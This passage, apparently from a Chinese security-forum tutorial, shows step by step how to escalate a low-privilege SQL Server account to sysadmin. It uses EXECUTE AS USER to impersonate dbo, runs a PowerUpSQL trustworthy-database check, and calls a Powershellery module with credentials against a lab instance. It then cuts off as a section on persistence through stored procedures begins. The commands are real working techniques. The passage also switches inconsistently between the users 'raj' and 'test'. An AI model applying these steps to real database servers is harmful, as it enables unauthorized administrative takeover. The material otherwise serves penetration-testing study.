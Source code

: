 可以看到已经存在 test 用户  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1189643dc439793e36c1b30df1d875140fa01812.png)  
由于 test 和 dbo 用户都是数据库的所有者，我们现在可以通过 test 来模拟 dbo 用户，一旦伪装成功，就能进一步获取权限。

```php
EXECUTE AS USER = 'dbo';
SELECT system_user;
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-373b078676a132575db7932d81d20391e18b02e8.png)  
上述查询已成功执行。现在，我们将借助以下查询将 raj 用户设置为 sysadmin，从而为它获得更多权限  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-153b595ab65bae8e2cb41539bd7965909cbbf1f4.png)  
可以看到 test 用户的属性已经被设置为 admin  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-e50dd4d5f4a63b40b41ee55d7f729168ffc28484.png)

### 使用 PowerUpSQL 提升权限

首先查看可信权限是否被激活

```php
Import-Module .\PowerUpSQL.ps1
Invoke-SQLAuditPrivTrustworthy -Username test -Password admin -Instance '192.168.3.137,1433' -Verbose
```

可以看到可信权限已经被打开  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-fedb7d61a21b9f15529b8477bda57e60022bcf8c.png)

```php
Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
Invoke-SqlServer-Escalate-DbOwner -SqlUser raj -SqlPass Password@1 -SqlServerInstance WIN-P83OS778EQK\SQLEXPRESS
```

调用 [Powershellery](https://github.com/nullbind/Powershellery/) 项目的 SqlServer-Escalate-DbOwner 模块提升权限

```php
Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
Invoke-SqlServer-Escalate-DbOwner -SqlUser test -SqlPass admin -SqlServerInstance '192.168.3.137,1433'
```

成功升级为 sysadmin 权限  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-13838e9fe5f8a5daacb1bd46dcff7307c0d24161.png)  
也可使用 msf 中的模块提升权限，这里不再赘述。

使用存储过程进行权限维持
============

使用 matser 数据库

```php
USE master
GO
```
